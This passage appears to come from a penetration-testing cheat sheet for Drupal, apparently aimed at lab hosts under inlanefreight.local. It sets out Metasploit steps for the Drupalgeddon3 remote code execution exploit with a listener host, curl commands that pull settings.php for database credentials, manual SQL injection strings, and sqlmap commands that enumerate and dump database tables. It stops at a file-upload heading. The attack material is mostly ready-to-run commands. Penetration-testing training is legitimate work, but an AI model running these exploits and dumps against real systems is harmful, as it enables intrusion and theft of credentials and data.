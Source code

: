 * RCE via user registration form.
* **Consideration:** Severity of unauthenticated RCE vulnerabilities.

### 5. Drupalgeddon3 (CVE-2018-7602)

```sh
msf6 > use exploit/multi/http/drupal_drupageddon3
msf6 > set rhosts 10.129.42.195
msf6 > set VHOST drupal-acc.inlanefreight.local
msf6 > set drupal_session SESS...
msf6 > set DRUPAL_NODE 1
msf6 > set LHOST 10.10.14.15
msf6 > exploit
```

* RCE via Form API (requires authenticated session).
* **Consideration:** Session hijacking risks.

### 6. Drupal Configuration File Exploitation/Security

```sh
curl -s http://drupal.inlanefreight.local/sites/default/settings.php
ls -l sites/default/settings.php
cat .htaccess
```

* Check for exposed settings.php, extract database credentials.
* **Consideration:** Secure configuration file permissions and access.

### 7. Database Exploitation (SQL Injection - Expanded)

```sh
curl "http://drupal.inlanefreight.local/node/1?id=1'--"
curl "http://drupal.inlanefreight.local/node/1?id=1' OR '1'='1"
sqlmap -u "http://drupal.inlanefreight.local/node/1?id=1" --dbs --batch
sqlmap -u "http://drupal.inlanefreight.local/node/1?id=1" -D [database_name] --tables --batch
sqlmap -u "http://drupal.inlanefreight.local/node/1?id=1" -D [database_name] -T [table_name] --columns --batch
sqlmap -u "http://drupal.inlanefreight.local/node/1?id=1" -D [database_name] -T [table_name] -C [column1,column2] --dump --batch
sqlmap -u "http://drupal.inlanefreight.local/node/1?id=1" --level 5 --risk 3
```

* Manual and automated SQL injection testing.
* **Consideration:** Validate findings with alternative tools.

### 8. Form API Exploitation

```sh
curl -X POST -d "param1=value1&param2=payload" http://drupal.inlanefreight.local/form_path
```

* **Consideration:** Burp Suite is very helpful for deeper analysis.

### 9. File Upload Vulnerabilities
